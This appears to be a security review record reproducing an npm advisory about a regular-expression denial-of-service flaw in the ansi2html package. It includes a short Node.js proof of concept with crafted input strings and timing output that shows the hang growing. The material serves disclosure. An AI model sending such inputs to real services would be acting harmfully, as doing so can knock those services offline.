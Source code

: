 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/ansi2html
Review-Date: '2015-10-25'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>There is currently no available fix. Do not pass untrusted input into ansi2html or limit the size of the user input to limit input.
### Details
ansi2html is vulnerable to regular expression denial of service (ReDoS) when certain types of user input is passed in.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]  ###Proof of concept ``` var ansi2html = require('ansi2html')  var start = process.hrtime(); ansi2html("[1111111111111111111111;0000000000000000000000"); console.log(process.hrtime(start));  start = process.hrtime(); ansi2html("[1111111111111111111111;00000000000000000000000"); console.log(process.hrtime(start));  start = process.hrtime(); ansi2html("[1111111111111111111111;000000000000000000000000"); console.log(process.hrtime(start));  start = process.hrtime(); ansi2html("[1111111111111111111111;0000000000000000000000000000"); console.log(process.hrtime(start)); ```  Results of the above ``` 00:29:53-adam_baldwin~/tmp$ node test [ 0, 119615367 ] [ 0, 149934565 ] [ 0, 233325677 ] [ 3, 46582479 ] ```
<br><br>• Affected Versions: <=99.999.99999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
